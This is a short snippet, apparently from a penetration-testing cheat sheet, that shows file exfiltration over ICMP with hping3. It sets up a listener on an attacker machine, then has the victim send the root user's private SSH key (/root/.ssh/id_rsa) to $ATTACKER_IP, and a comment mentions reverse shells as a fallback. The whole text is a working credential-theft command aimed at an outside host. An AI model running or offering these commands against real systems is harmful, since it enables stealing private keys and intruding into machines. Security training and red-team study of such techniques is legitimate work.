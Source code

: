 {% code overflow="wrap" %}
```bash
https://iphelix.medium.com/hping-tips-and-tricks-85698751179f

# Listener on attacking machine
sudo hping3 --icmp $VICTIM_IP --listen signature --safe (-I eth0)
# Now the victim will send the file
sudo hping3 --icmp $ATTACKER_IP -e signature -E /root/.ssh/id_rsa -d 2000
# If file is cut/screwed while transferring, create two SSH sessions/revshells and transfer from 1 to 2 using localhost
```
{% endcode %}
